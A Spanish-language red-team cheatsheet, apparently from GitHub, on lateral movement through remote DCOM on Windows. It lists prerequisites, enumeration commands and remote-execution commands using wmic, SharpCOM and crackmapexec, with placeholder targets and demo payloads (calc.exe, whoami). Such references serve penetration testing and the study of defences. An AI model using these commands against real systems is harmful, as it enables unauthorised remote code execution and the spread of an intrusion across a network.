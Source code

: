 **\[DCOM Exploitation Cheatsheet]**

---

**Escenario**: Movimiento lateral aprovechando COM remoto (DCOM) para ejecutar código en sistemas remotos con privilegios.

**Requisitos Previos**:

* Credenciales válidas con privilegios (local admin o similar).
* Conectividad a puertos:

  * 135 (RPC endpoint mapper)
  * 445 (SMB para autenticación)
* DCOM habilitado en el objetivo (por defecto está habilitado en muchos entornos Windows).
* El servicio objetivo (como MMC, ShellWindows, Excel) debe permitir la ejecución remota.

---

**Enumeración del Entorno**:

* Verificar puertos abiertos:

  ```bash
  nmap -p 135,445 <target>
  ```
* Confirmar que el usuario tiene privilegios:

  ```bash
  crackmapexec smb <target> -u <user> -p <pass>
  ```
* Buscar clases DCOM vulnerables:

  * Herramientas:

    * `dcomhunt` (GitHub)
    * `OleViewDotNet`
    * `Get-WmiObject -Class __Win32Provider`

---

**Explotación (Ejemplos)**:

* **Usar `wmic.exe` (Windows)**:

  ```cmd
  wmic /node:"<target>" /user:"<domain>\<user>" /password:"<pass>" process call create "cmd.exe /c calc.exe"
  ```

* **DCOM lateral movement con `SharpCOM` (C#)**:
  Ejecutar un COM object como MMC20.Application:

  ```powershell
  SharpCOM.exe -t MMC20.Application -s <target> -u <user> -p <pass> -d <domain> -c "calc.exe"
  ```

* **Usar `CME` (experimental)**:

  ```bash
  crackmapexec smb <target> -u <user> -p <pass> --exec-method dcom --command "whoami"
  ```

---

**Notas Adicionales**:

* Algunos objetos COM requieren interfaz gráfica, otros no (preferir los sin GUI como ShellWindows, MMC).
* Habilitar logs de WMI y DCOM en la víctima para auditoría.
* Windows Defender puede detectar algunos usos de DCOM si se cargan DLLs o scripts sospechosos.

---

**Herramientas Recomendadas**:

* SharpCOM
* DCOMHunt
* CrackMapExec (pruebas básicas)
* WMI (WMIC / PowerShell)
* OleViewDotNet / COMRaider (visualización)
* RPCDump.py (Impacket)
